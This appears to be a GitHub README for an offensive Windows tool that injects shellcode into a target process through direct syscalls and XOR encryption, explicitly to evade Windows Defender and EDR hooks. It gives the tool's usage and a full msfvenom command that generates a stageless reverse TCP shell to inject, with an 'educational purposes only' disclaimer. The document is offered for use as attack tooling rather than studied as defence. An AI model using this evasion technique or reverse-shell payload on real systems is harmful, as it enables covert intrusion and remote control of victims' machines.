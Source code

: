 # He4vensG4te
Process Injection Using direct syscalls only bypasses win defender

FOR EDUCATIONAL PURPOSES ONLY THIS CODE IS NOT MEANT TO BE WEPONIZED OR USED FOR MALICIOUS INTENTS
# technique explanation

just like a normal process injection we first get a handle to the target process , allocate space inside it, write the shellcode then create a thread that executes the shellcode 

now in each of these steps we have to use a win api function not just risking that some of these functions might be hooked by edrs but also this patters is so knows and any behavioral analysis will flag the malware so i wroked on my own version of the hellsgate technique to directly call the syscall instead of using high level win api functions

# how does it work 

its pretty simple and i already explained it here https://github.com/B4shCr00k/DirectSysCalls 

so we just call the stub everytime we call an nt function and repeat until we complete all the steps 

i also included a simple xor encryption to bypass static avs like win defender 

# Usage 
`He4vensG4te.exe [path] [pid]`

-  path must use double back slashes '\\'
-  tested on windows 11 x64 latest build
-  bypasses windows defender and some other static avs  

# Important note 
for the shellcode it has to be a .bin file you can generate one using metasploit like this 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=x -f raw -o shellcode.bin`
the thing is u have to use a one stage payload cause i noticed that when i inject a multi stage meterpreter reverse shell the process crashes and the connection failed so the command above will generate a one stage simple reverse shell that actually works 

# ScreenShots
![Screenshot 2025-06-14 194559](https://github.com/user-attachments/assets/bd4e0cfb-6c2b-4695-a374-3c78be4fd893)
![Screenshot 2025-06-14 194936](https://github.com/user-attachments/assets/c880f7ab-04fe-4140-b667-fc1351fc49cb)
